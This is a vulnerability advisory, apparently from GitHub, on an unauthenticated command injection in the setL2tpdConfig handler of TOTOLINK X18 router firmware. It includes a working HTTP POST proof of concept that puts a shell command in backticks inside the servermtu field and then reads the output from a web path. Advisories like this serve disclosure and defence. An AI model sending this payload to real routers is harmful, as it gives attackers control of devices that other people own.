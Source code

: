 # TOTOlink X18 Unauthorized Arbitrary Command Execution vulnerability

## supplier 

https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/226/ids/36.html

version:V9.1.0cu.2024_B20220329	

## Vulnerability file

setL2tpdConfig function in cstecgi.cgi

## describe

In the setL2tpdConfig function in the firmware of X18 , there are arbitrary system command vulnerabilities and RCE vulnerabilities, which can be executed by arbitrary system commands to obtain server permissions, bounce shells, etc.

## code analysis

The vulnerability trigger points and the source code of the cstecgi.cgi file are as follows
setL2tpdConfig  function, you can see that the value of the obtained Enabled is saved to Var, and then the value of the servermtu is saved to v10, so when Enabled=1 enters the code statement, passes the content of servemtu to dosystem, and constructs payload to directly execute system commands. dosystem is a function that encapsulates the system.

![Image](https://github.com/user-attachments/assets/b52288eb-46f2-4bcb-b95a-79b968462c40)

![Image](https://github.com/user-attachments/assets/adfa1fe4-87d0-4268-98c1-a2b5db816e40)

![Image](https://github.com/user-attachments/assets/ddef678a-a7a8-4247-9324-7c2892a1f66f)

## POC

excute "id" command.

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 124
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/advance/static_route.html?timestamp=1715924422681

{

"Enabled":"1",
"servermtu":"`id>/web/1.txt`",
"topicurl":"setL2tpdConfig","token":"563eeae9c15be17f3fdc4f36db0fa17f"}
```

![Image](https://github.com/user-attachments/assets/a21a8e73-8e67-46c2-8b7d-5a2c179f9702)

Result

asset the url, get command exec result.

```
http://192.168.123.16/1.txt
```

![Image](https://github.com/user-attachments/assets/fa7275ea-08bf-4a5c-93b7-0ac1c337b3df)